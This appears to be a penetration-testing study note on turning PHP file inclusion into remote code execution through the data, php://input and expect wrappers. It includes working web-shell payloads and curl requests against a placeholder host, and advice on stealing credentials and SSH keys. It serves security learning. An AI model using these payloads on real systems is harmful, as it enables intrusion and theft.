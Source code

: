 Aside from [using PHP wrappers for file disclosures](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) through the file inclusion vulnerability. The same technique can also be used to perform code executions.

While we can use many different methods to execute remote commands depending on the backend language/framework and the vulnerable function's capabilities. The most command method for gaining control over the backend server is by enumerating for user credentials and SSH keys, and then use those to login to the backend server through SSH or any remote session.

For example, we may find the database password in `config.php`, which may match a user's password in case they re-use the same password. Or we can check the `.ssh` directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key (`id_rsa`) and use it to SSH into the system.
## Data Wrapper
The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. We can access the data wrapper using `data://`.

However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations. To confirm this, we need to use the `convert.base64-encode` for the `read` parameter [technique](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) to read PHP configuration files.

Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` to see its value:
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On 
```
### Remote Code Execution
With `allow_url_include` enabled, we can proceed with our attack using the `data` wrapper. Aside from passing plain PHP code, we can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

First we encode our payload in Base64 as follows:
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg== 
```

Then we pass the encoded payload into the data wrapper as follows:
```txt
http://target-website.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
## Input Wrapper
Similar to the data wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. We can access the data wrapper using `php://input`.

The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting.

To execute a command using the `input` wrapper, we need to send a POST request to the vulnerable URL as follows:
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]) ?>' http://target-website.com/index.php?language=php://input&cmd=id
```
> Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)
## Expect Wrapper
Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells used in previous examples, but don't need to provide a web shell, as it is designed to execute commands. We can access the data wrapper using `expect://`.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the backend server, although some web applications rely on it for their core functionality, so there will be use cases for it in the wild. To determine if `expect` wrapper is installed, we need to use the `convert.base64-encode` for the `read` parameter [technique](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) to read PHP configuration files.

To use the expect module, we can use the `expect://` wrapper and then pass the command we want to execute, as follows:
```txt
http://target-website.com/index.php?language=expect://id
```